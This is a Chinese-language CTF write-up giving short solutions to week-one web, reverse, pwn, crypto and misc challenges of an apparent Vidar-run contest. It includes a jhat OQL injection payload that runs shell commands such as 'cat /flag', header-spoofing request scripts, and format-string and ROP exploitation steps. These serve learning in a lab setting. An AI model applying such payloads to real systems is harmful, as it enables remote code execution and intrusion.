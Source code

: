 # WEEK1
## WEB
### 2048
```javascript
(function(){}).constructor === Function
Function.prototype.constructor = function(){}
```
反调
![](https://pic.imgdb.cn/item/65ba1d4d871b83018a720301.png)
改个score won就行
### http
```python
import requests

url = 'http://47.100.137.175:30417/'
referer = 'vidar.club'
referer2='127.0.0.1'
headers = {
    'User-Agent':'Mozilla/5.0 (Vidar; VidarOS x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0',
    'Referer': referer,
    'X-Real-IP': '127.0.0.1'
}

response = requests.get(url, headers=headers)

print(response.text)
```
### bypass
藏了一个registe.php  ，恶心
不是给的register_xxx_.php
```python
import requests

url = "http://47.100.137.175:30195/register.php"  
data = {
    "username": "12345",
    "password": "12345",
    "register": "注册"}

response = requests.post(url, data=data)
print(response.text)
```
### select cource
应该是原型链污染，但是不知道出题人咋写的题，点一点就出
### jhat
oql注入，没有waf
function带出数据
java.lang.Runtime.getRuntime().exec("env").getInputStream();
```java
   select map(heap.objects('java.lang.ClassLoader'),
      function (it) {
         var res = '';
         var ex = java.lang.Runtime.getRuntime().exec("cat /flag").getInputStream();
         var isr = new java.io.InputStreamReader(ex);
         var br = new java.io.BufferedReader(isr);
         while (it != null) {
            res += toHtml(it) + "->";
            it = it.parent;
         }
         res += br.readLine();
         return res + "<br>";
      })
```

## REVERSE
### ezASM
每个数据异或0x22。
### ezPYC
pyinstxtractor解包之后反编译pyc文件。但是出来的内容不全。
根据加密之后的末两位是124, 2以及flag的末两位应当为`}`以及`\x00`，推断加密为循环异或1,2,3,4。
### ezIDA
拖入IDA即可。
### ezUPX
`upx -d`脱壳，每一位异或0x32。

## PWN
### EzSignIn
连上就行。
### ezshellcode
用-1绕过长度检查，再在网上找一个课件shellcode即可。
### ezfmt string
现在本地将过滤字符的代码patch掉泄露栈上内容。
构造payload时先将栈上第18个参数的最后两字节改为`\x08`，再利用`%xc%22$hn`修改第22个参数位后门函数地址。
不停地打，直到某一次第22个参数的地址以`\x08`结尾，即可成功。
### Elden Ring I
利用栈溢出和puts函数泄露libc基址。
由于题目有沙箱，通过libc中的指令组pop_rsp_ret将栈迁移到bss段。之后执行orw。
### Elden Random Challenge
输入名字的时候将seed覆盖为0即可人工控制随机数。
之后利用栈溢出和puts函数泄露libc基址，找到system函数和/bin/sh字符串地址拿到shell。

## CRYPTO
### 奇怪的图片
选定一张图片A，让其余的图片都跟A异或，可以得到一组写有flag的图片。
将这一组图片上的字数从小到大排列即可找出flag。
其中在A上写的字以前的图片需要倒着排列。
### ezRSA
根据费马小定理，泄露出来的leak1和leak2其实就是p和q。
### ezPRNG
每次迭代在后面添加的数会同时被添加到output中，迭代32次之后，就是在使用output中的内容了。
迭代规则中掩码为1的位置数据也是1的情况有奇数个就补1，反之补0，据此还原。
### ezMath
佩尔方程。网上随便搜一个脚本就行。

## MISC
### 来自星尘的问候
用steghide猜密码123456提取出压缩包，压缩包中的图片用脑残游戏文字对照出来就是flag
### 希儿希儿希尔
foremost出来zip得到密文，LSB隐写得到密钥矩阵，用希尔密码解密出来就是flag
### simple_attack
已知明文攻击，bkcrack秒了
### 签到
签到
### signin
平着看